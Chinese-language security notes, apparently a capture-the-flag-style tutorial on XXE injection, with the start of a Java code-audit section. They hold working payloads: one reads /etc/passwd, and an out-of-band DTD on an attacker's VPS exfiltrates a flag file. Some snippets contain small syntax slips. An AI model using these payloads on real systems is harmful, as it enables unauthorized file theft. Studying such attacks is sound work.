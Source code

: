 

### 读取本地文件

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE ANY[    
    <!ENTITY f SYSTEM "file://etc/passwd">
]> 
<x>&f;</x>

```





### OOB XXE

1.在我们VPS创建一个`test.dtd`文件：

```xmlxml
<xml version="1.0" encoding="UTF-8">
<!ENTITY % file  SYSTEM "file:///var/www/html/flag.txt">
<!ENTITY % all "<!ENTITY xxe SYSTEM 'http://localhost:8888/?text=%file;'>">
%all;

```

2.开始web服务，以便后续步骤可以访问到这个`test.dtd`文件，比如SimpleHTTPServer

3.burp抓包修改数据包, 下面数据包一旦经受害者服务器处理，就会向我们的vps发送请求，查找我们的DTD文件

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
    <!ENTITY % remote SYSTEM "http://前面vps的ip:8888/test.dtd">
%remote;
]>

<user><username>&xxe;</username><password>admin888</password></user>

```

结果我们vps收到了flag.txt的文件内容，而SimpleHTTPServer也收到了对test.dtd的GET请求





## 代码审计

### XML的常见接口

解析XML常见的方法有四种，即：DOM、DOM4J、JDOM 和SAX。

Java中常用以下常见接口来解析XML语言：

#### 1.XMLReader
